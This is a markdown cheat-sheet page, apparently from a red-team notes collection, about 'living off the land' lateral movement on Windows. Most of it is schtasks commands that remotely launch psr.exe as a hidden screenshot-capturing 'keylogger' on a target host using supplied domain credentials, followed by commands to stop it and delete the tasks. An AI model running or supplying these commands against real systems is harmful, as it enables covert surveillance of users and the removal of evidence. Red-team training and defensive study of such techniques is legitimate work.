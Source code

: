 # Living off the Land

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Manual

TODO: Fill this info

## 02 - Scenarios

Taking screenshots via **Living off the Land (LofL)**.

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> schtasks /create /tn "keylogger" /tr "C:\Windows\system32\psr.exe /start /gui 0 /output C:\path\to\file.zip" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Create schedule task to stop taking screenshots.

```
C:\> schtasks /create /tn "stop_keylogger" /tr "C:\Windows\system32\psr.exe /stop" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "stop_keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Delete schedule tasks.

```
C:\> schtasks /delete /f /tn "keylogger" /s <IP>

C:\> schtasks /delete /f /tn "stop_keylogger" /s <IP>
```

Confirm schedule tasks are removed.

```
C:\> schtasks /query /tn "keylogger" /fo List /v /s <IP>

C:\> schtasks /query /tn "stop_keylogger" /fo List /v /s <IP>
```

---
## References

- [Schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)